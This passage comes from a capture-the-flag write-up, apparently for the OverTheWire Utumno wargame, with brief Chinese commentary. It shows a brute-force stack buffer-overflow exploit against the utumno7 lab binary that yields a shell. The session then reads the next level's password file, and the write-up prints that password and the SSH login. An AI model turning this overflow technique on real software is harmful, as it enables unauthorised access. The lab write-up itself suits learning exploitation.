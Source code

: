 ```bash
lol ulrich && fuck hector
./force.sh: line 11: 23050 Segmentation fault      /utumno/utumno7 $(python -c "print 'A'*128+'BBBB'*3+'\x${x}\xd5\xff\xff'")
18
lol ulrich && fuck hector
./force.sh: line 11: 23054 Segmentation fault      /utumno/utumno7 $(python -c "print 'A'*128+'BBBB'*3+'\x${x}\xd5\xff\xff'")
19
lol ulrich && fuck hector
./force.sh: line 11: 23058 Segmentation fault      /utumno/utumno7 $(python -c "print 'A'*128+'BBBB'*3+'\x${x}\xd5\xff\xff'")
1A
lol ulrich && fuck hector
./force.sh: line 11: 23062 Segmentation fault      /utumno/utumno7 $(python -c "print 'A'*128+'BBBB'*3+'\x${x}\xd5\xff\xff'")
1B
lol ulrich && fuck hector
./force.sh: line 11: 23066 Segmentation fault      /utumno/utumno7 $(python -c "print 'A'*128+'BBBB'*3+'\x${x}\xd5\xff\xff'")
1C
lol ulrich && fuck hector
$ whoami 
utumno8
$ cat /etc/utumno_pass/utumno8
jaeyeetiav
$ 

```
一切皆在我们的计算之中。理论上能行，实际上也能行。挺好的一道题,虽然想了许久。

## Utumno 08

**SSH :** ssh utumno8@utumno.labs.overthewire.org -p 2227

**Pass :** jaeyeetiav

完结撒花。
